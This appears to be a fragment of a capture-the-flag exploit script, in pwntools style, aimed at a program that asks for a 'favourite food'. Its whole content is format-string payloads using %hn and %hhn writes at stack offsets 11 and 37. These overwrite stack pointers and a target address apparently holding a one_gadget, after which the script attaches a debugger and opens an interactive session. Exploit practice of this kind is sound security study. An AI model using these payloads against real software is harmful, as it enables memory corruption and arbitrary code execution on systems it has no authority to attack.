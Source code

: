 ```plain
sla('favourite food: ','%'+str(6)+'c%37$hhn')
sla('favourite food: ','%'+str(stack1&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str(og&0xffff)+'c%37$hn')
sla('favourite food: ','%'+str((stack1+2)&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str((og>>16)&0xff)+'c%37$hhn')
gdb.attach(p)
itr()
```
